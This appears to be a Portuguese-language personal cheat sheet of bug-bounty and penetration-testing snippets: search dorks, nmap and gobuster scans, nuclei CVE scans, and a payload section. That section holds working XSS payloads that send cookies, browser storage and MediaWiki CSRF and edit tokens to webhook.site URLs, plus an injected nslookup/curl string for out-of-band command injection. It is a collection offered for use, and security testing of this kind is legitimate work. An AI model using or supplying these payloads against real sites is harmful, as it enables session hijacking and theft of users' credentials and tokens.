 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```

* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```javascript
    var data = {};
    data.cookie = document.cookie;
    data.localStorage = {};
    data.sessionStorage = {};
    data.mediawikiTokens = {};
    data.userInfo = {};

    // Capturar todos os dados do localStorage
    for(var i=0; i<localStorage.length; i++) {
        var key = localStorage.key(i);
        data.localStorage[key] = localStorage.getItem(key);
    }

    // Capturar todos os dados do sessionStorage
    for(var i=0; i<sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        data.sessionStorage[key] = sessionStorage.getItem(key);
    }

    // Tenta obter tokens do MediaWiki especificamente
    try {
        if(typeof mw != 'undefined' && mw.user && mw.user.tokens) {
            data.mediawikiTokens = {
                editToken: mw.user.tokens.get('editToken'),
                csrfToken: mw.user.tokens.get('csrfToken'),
                watchToken: mw.user.tokens.get('watchToken')
            };
        }
    } catch(e) {}

    // Informações do usuário
    try {
        if(typeof mw != 'undefined' && mw.config) {
            data.userInfo = {
                userName: mw.config.get('wgUserName'),
                userId: mw.config.get('wgUserId'),
                pageName: mw.config.get('wgPageName'),
                namespace: mw.config.get('wgCanonicalNamespace'),
                revisionId: mw.config.get('wgRevisionId'),
                articleId: mw.config.get('wgArticleId')
            };
        }
    } catch(e) {}

    // Envia os dados coletados para o webhook
    fetch('[https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0](https://webhook.site/ce0f8999-b412-490d-aa38-f94652be63b0)', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify(data)
    });
    ```

### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

## Ferramentas & Recursos Adicionais

Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)

